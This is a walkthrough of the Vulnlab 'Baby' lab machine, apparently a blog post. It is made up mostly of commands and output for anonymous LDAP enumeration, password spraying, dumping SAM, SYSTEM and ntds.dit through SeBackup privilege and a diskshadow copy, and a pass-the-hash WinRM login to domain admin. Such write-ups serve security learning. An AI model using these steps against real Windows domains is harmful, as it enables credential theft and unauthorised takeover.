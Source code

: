 ```yaml
---
categories:
- Vulnlab
image:
  path: vl_baby.png
layout: post
media_subpath: /assets/posts/2022-01-19-lab-baby-walkthrough
tags:
- active directory
- ldap
- vulnlab
- windows
title: Lab - Baby Walkthrough
---
```


Baby is an easy machine on Vulnlab that involves enumerating LDAP & spraying credentials. For SYSTEM we exploit SeBackup & SeRestore Privileges.

The initial port scan shows the following ports:

```
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```

One thing to check on Active Directory machines is if anonymous bind to LDAP is possible. We try to enumerate users via ldapsearch:

```
ldapsearch -x -b "dc=baby,dc=vl" "user"  -h 10.10.10.6 | grep dn

dn: DC=baby,DC=vl
dn: CN=Administrator,CN=Users,DC=baby,DC=vl
dn: CN=Guest,CN=Users,DC=baby,DC=vl
dn: CN=krbtgt,CN=Users,DC=baby,DC=vl
dn: CN=Domain Computers,CN=Users,DC=baby,DC=vl
dn: CN=Domain Controllers,CN=Users,DC=baby,DC=vl
dn: CN=Schema Admins,CN=Users,DC=baby,DC=vl
dn: CN=Enterprise Admins,CN=Users,DC=baby,DC=vl
dn: CN=Cert Publishers,CN=Users,DC=baby,DC=vl
dn: CN=Domain Admins,CN=Users,DC=baby,DC=vl
dn: CN=Domain Users,CN=Users,DC=baby,DC=vl
dn: CN=Domain Guests,CN=Users,DC=baby,DC=vl
dn: CN=Group Policy Creator Owners,CN=Users,DC=baby,DC=vl
dn: CN=RAS and IAS Servers,CN=Users,DC=baby,DC=vl
dn: CN=Allowed RODC Password Replication Group,CN=Users,DC=baby,DC=vl
dn: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl
dn: CN=Read-only Domain Controllers,CN=Users,DC=baby,DC=vl
dn: CN=Enterprise Read-only Domain Controllers,CN=Users,DC=baby,DC=vl
dn: CN=Cloneable Domain Controllers,CN=Users,DC=baby,DC=vl
dn: CN=Protected Users,CN=Users,DC=baby,DC=vl
dn: CN=Key Admins,CN=Users,DC=baby,DC=vl
dn: CN=Enterprise Key Admins,CN=Users,DC=baby,DC=vl
dn: CN=DnsAdmins,CN=Users,DC=baby,DC=vl
dn: CN=DnsUpdateProxy,CN=Users,DC=baby,DC=vl
dn: CN=dev,CN=Users,DC=baby,DC=vl
dn: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl
dn: CN=Ashley Webb,OU=dev,DC=baby,DC=vl
dn: CN=Hugh George,OU=dev,DC=baby,DC=vl
dn: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
dn: CN=Ian Walker,OU=dev,DC=baby,DC=vl
dn: CN=it,CN=Users,DC=baby,DC=vl
dn: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
dn: CN=Caroline Robinson,OU=it,DC=baby,DC=vl
dn: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
dn: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
```

We managed to get a list of all domain users. Another point to check on LDAP is the description field of users. Sometimes administrators store valuable information there without realizing that unprivileged users have access to this kind of information:

```
ldapsearch -x -b "dc=baby,dc=vl" "*"  -h 10.10.10.6 | grep desc -A2
...
description: Set initial password to BabyStart123!
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
```

The password Teresa was at some point reset to "BabyStart123!". This is likely the default passwords admins use when a user has forgotten his password. We can try to use it for Teresa, but will notice that it’s not valid:

```
crackmapexec smb 10.10.10.6 -u teresa.bell -p 'BabyStart123!' --no-bruteforce

SMB         10.10.10.6      445    BABYDC           [-] baby.vl\teresa.bell:BabyStart123! STATUS_LOGON_FAILURE
```

Maybe it is valid for another user though. We create a wordlist "users.txt" from the usernames we saw in LDAP and spray the password across all accounts:

```
crackmapexec smb 10.10.10.6 -u users.txt -p 'BabyStart123!' --no-bruteforce
...
SMB         10.10.10.6      445    BABYDC           [-] baby.vl\caroline.robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```

We have a hit for Caroline, change her password via smbpasswd and use these credentials to login via WinRM:

```
smbpasswd -U BABY/caroline.robinson -r 10.10.10.6
...
<change password>
...
ruby ~/tools/evil-winrm/evil-winrm.rb -i 10.10.10.6 -u 'caroline.robinson' -p 'Start123!'
```

We check our privileges with `whoami /all` and can see that we have SeRestore- & SeBackupPrivilege. This allows us to save SAM & SYSTEM and download it to our machine:

```
cd c:\
mkdir Temp
cd \Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

After downloading the files, pypykatz or secretsdump can be used to obtain the administrator hash:

```
pypykatz registry --sam sam system
...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
```

However, we cant connect with this hash. Why? It’s actually the local administrator hash which is not useable on a domain controller for logging in! Instead, we have to get the hash of the account in the domain (which has exactly the same name). In order to do this, we have to grab "ntds.dit" aswell:

```
# save this in script.txt
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX

# run diskshadow
diskshadow /s script.txt

# copy ntds to c
robocopy /b E:\Windows\ntds . ntds.dit
```

Now we can run secretsdump again, this time getting the domain account hashes by supplying "ntds.dit":

```
impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
```

Finally we can use the hash to connect via WinRM:

```
evil-winrm -i baby.vl -u 'administrator' -H '<REDACTED>'
```

This finishes the box.